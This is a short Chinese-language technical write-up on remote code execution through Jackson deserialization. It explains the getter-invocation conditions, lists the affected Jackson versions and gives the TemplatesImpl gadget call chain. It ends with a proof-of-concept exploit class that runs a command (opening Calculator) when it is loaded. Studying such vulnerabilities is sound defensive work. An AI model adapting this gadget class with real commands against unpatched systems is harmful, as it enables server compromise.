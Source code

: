 ## Java反序列化

在[这篇文章](https://thonsun.github.io/2020/11/02/jackjson-fan-xu-lie-hua-lou-dong-li-yong-yuan-li/)中解释了Jackson反序列化在一定条件下能调用getter方法

1. 没有setting方法

2. 私有属性

3. getter方法返回值是Map,Collection的类型

`com.sun.org.apache.xalan.internal.xsltc.TemplateImpl` 说明在jackson反序列化中利用Java反序列化漏洞进行RCE的利用**调用getter方法的情况**。这个主要的利用对象TemplateImpl的属性 `_outputProperties` 在JsonBeanDeserializer 调用的是getter方法

TemplateImpl加载字节码的操作也已经见过很多次了，就不再分析了，就来看看最后的效果吧

**影响版本**

Jackson 2.6系列 < 2.6.7.1
Jackson 2.7系列 < 2.7.9.1
Jackson 2.8系列 < 2.8.8.1

调用链

```java
TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
    TemplatesImpl.getTransletInstance()
      TemplatesImpl.defineTransletClasses()
        ClassLoader.defineClass()
        Class.newInstance()
```

恶意类

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class exp extends AbstractTranslet {
    public exp() {
        try {
            Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

}
```
